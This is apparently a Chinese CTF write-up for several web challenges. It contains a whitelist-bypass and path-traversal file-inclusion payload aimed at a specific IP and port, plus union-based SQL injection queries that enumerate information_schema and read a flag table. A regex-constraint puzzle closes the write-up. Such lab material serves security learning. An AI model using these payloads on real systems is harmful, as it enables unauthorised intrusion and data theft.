 
还有个hint.php访问得到

![](https://img-blog.csdnimg.cn/2021030716475547.png#pic_center)

![](https://img-blog.csdnimg.cn/20210307164859528.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
定义一个白名单，判断：变量没有定义或者变量不是字符串，false

![](https://img-blog.csdnimg.cn/20210307164944346.png#pic_center)
第二个if语句判断 $page 是否存在于 whitelist数组中，存在则返回true

![](https://img-blog.csdnimg.cn/2021030716505288.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
第三个if语句判断截取后的 $page 是否存在于  whitelist数组中，截取 $page中 '?' 前部分，存在则返回true


第四个if语句判断url解码并截取后的 $page 是否存在于 whitelist 中，存在则返回true
```
Payload：
 http://220.249.52.134:43797/source.php?file=source.php? 
```

include:

![](https://img-blog.csdnimg.cn/2021030716530172.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
../../../../../../ffffllllaaaagggg 

---
## Newscenter
- sql 注入

order by 查字段数 为 3

payload：
```
 1' union select 1,2,table_name from information_schema.tables

 1'union select 1,2,column_name from information_schema.columns where table_name='secret_table' 

 1'union select 1,2,fl4g from secret_table #   查看flag
 ```

---
## nannannannan-batman
- 考点：正则绕过

整理得到代码：

![](https://img-blog.csdnimg.cn/20210307170023596.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
需要满足条件：
```	
 e.length==16
 e.match(/^be0f23/)!=null
 e.match(/233ac/)!=null
 e.match(/e98aa$/)!=null
 e.match(/c7be9/)!=null
   ```

